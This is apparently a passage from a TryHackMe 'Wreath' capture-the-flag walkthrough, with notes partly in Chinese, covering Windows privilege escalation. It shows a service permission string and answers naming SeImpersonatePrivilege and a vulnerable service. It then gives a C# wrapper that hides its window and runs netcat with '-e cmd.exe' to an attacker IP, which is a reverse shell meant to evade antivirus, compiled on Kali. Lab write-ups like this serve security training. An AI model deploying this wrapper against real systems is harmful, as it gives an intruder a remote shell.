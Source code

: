 ```
Sddl   : O:BAG:S-1-5-21-3963238053-2357614183-4023578609-513D:AI(A;OICI;FA;;;BU)(A;ID;FA;;;S-1-5-80-956008885-341852264
         9-1831038044-1853292631-2271478464)(A;CIIOID;GA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-22714784
         64)(A;ID;FA;;;SY)(A;OICIIOID;GA;;;SY)(A;ID;FA;;;BA)(A;OICIIOID;GA;;;BA)(A;ID;0x1200a9;;;BU)(A;OICIIOID;GXGR;;;
         BU)(A;OICIIOID;GA;;;CO)(A;ID;0x1200a9;;;AC)(A;OICIIOID;GXGR;;;AC)(A;ID;0x1200a9;;;S-1-15-2-2)(A;OICIIOID;GXGR;
         ;;S-1-15-2-2)




```


>  One of the privileges on this list is very famous for being used in the PrintSpoofer and Potato series of privilege escalation exploits -- which privilege is this?

> SeImpersonatePrivilege

> What is the Name (second column from the left) of this service?

> SystemExplorerHelpService

# Task 43  AV Evasion Privilege Escalation


准备一份C#代码:Wrapper.cs
```
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
            Process proc = new Process();
			ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-max.exe", "10.50.102.104 443 -e cmd.exe");
			procInfo.CreateNoWindow = true;
			proc.StartInfo = procInfo;
			proc.Start();
        }
    }
}
```


kali上编译上面的c#代码
```
┌──(root💀kali)-[~/tryhackme/Wreath]
└─# mcs Wrapper.cs

```
